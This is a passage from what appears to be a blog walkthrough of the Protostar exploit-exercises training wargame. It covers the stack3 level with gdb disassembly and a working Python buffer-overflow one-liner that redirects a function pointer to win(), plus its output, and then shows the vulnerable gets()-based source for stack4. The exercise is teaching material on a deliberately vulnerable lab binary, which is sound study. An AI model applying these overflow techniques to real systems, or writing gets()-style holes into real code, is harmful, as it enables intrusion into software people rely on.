 The stack layout in this program is exactly the same as the previous ones. The
`fp` variable is located at memory address `$esp + 0x5c` and `buffer` starts
at `$esp + 0x1c`

The interesting bit in this program is the following two lines:

```shell
0x08048471 <main+57>:   mov    0x5c(%esp),%eax
0x08048475 <main+61>:   call   *%eax
```

We see that the the value of `fp` is moved to `$eax` and is called. If we can
modify the value of `fp` to point to the memory location of `win()`, we will
have completed this stage.

In the disassembly of `win()`, we see that the function starts at `0x08048424`.

```shell
(gdb) disass win
Dump of assembler code for function win:
0x08048424 <win+0>:     push   %ebp
0x08048425 <win+1>:     mov    %esp,%ebp
0x08048427 <win+3>:     sub    $0x18,%esp
0x0804842a <win+6>:     movl   $0x8048540,(%esp)
0x08048431 <win+13>:    call   0x8048360 <puts@plt>
0x08048436 <win+18>:    leave
0x08048437 <win+19>:    ret
End of assembler dump.
```

We overwrite `fp` with `\x24\x84\x04\x08`. Remember, little-endian.

```shell
user@protostar:~$ python -c "print 'A' * 64 + '\x24\x84\x04\x08'" | /opt/protostar/bin/stack3
calling function pointer, jumping to 0x08048424
code flow successfully changed
```

# stack 4

We are given the below source code.

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```


[exploit-exercises]: https://exploit-exercises.com
[nebula-writeup]: 2018-01-01-nebula-walkthrough
[wikipedia-endianness]: https://en.wikipedia.org/wiki/Endianness
[wikipedia-shellcode]: https://en.wikipedia.org/wiki/Shellcode
[exploit-db-13357]: https://www.exploit-db.com/exploits/13357/